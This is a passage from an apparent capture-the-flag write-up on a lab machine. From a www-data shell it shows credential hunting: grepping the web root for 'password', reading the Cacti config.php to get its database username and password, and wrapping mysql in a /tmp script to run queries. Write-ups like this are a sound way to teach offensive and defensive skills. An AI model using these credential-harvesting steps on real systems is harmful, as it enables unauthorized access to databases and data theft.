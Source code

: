 After a whlie, I found juicy data ...

#### NOTE:&#x20;

These are few cmds i usually use to get passwords (if any).

```bash
grep -irl "password"
grep -irl "password" | grep config
```

I found cacti dbs' username and password

```bash
www-data@monitorsthree:~/html$ grep -irl "password" | grep config
grep -irl "password" | grep config
cacti/include/config.php
cacti/include/config.php.dist
www-data@monitorsthree:~/html$ cat cacti/include/config.php
cat cacti/include/config.php
<?php
<<__SNIPPED__>>

$database_default  = 'cacti';
$database_hostname = 'localhost';
$database_username = 'cactiuser';
$database_password = 'cactiuser';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;

<<__SNIPPED__>>


```

Since I don't have a proper tty shell, I will make use of `-e` flag of mysql to run query with cli arguments

```bash
#make a custom binary just for ease of use
echo 'mysql -u cactiuser -pcactiuser -e "$1"' > /tmp/cacdb
chmod +x /tmp/cacdb
export PATH=/tmp:$PATH

www-data@monitorsthree:~/html/cacti/resource$ cacdb 'show databases'
cacdb 'show databases'
+--------------------+
| Database           |
+--------------------+
| cacti              |
| information_schema |
| mysql              |
+--------------------+

```
